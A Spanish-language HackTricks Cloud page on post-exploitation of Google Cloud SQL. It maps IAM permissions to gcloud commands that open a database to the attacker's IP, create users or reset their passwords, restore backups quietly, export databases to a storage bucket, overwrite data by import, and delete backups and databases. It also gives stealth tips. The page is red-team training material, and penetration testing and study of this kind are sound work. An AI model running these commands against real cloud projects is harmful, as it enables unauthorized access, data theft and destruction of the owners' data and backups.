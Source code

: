 # GCP - Cloud SQL Post Explotación

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Cloud SQL

Para más información sobre Cloud SQL consulta:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Para conectarte a las bases de datos **solo necesitas acceso al puerto de la base de datos** y conocer el **nombre de usuario** y **contraseña**, no hay requisitos de IAM. Así que, una forma fácil de obtener acceso, suponiendo que la base de datos tiene una dirección IP pública, es actualizar las redes permitidas y **permitir que tu propia dirección IP acceda a ella**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
También es posible usar **`--no-backup`** para **interrumpir las copias de seguridad** de la base de datos.

Dado que estos son los requisitos, no estoy completamente seguro de cuáles son los permisos **`cloudsql.instances.connect`** y **`cloudsql.instances.login`**. Si lo sabes, ¡envía un PR!

### `cloudsql.users.list`

Obtén una **lista de todos los usuarios** de la base de datos:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Este permiso permite **crear un nuevo usuario dentro** de la base de datos:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Este permiso permite **actualizar un usuario dentro** de la base de datos. Por ejemplo, podrías cambiar su contraseña:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Las copias de seguridad pueden contener **información sensible antigua**, por lo que es interesante revisarlas.\
**Restaurar una copia de seguridad** dentro de una base de datos:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Para hacerlo de una manera más sigilosa, se recomienda crear una nueva instancia de SQL y recuperar los datos allí en lugar de en las bases de datos que se están ejecutando actualmente.

### `cloudsql.backupRuns.delete`

Este permiso permite eliminar copias de seguridad:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exportar una base de datos** a un Cloud Storage Bucket para que puedas acceder a ella desde allí:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importar una base de datos** (sobrescribir) desde un Bucket de Cloud Storage:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Eliminar una base de datos de la instancia de db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
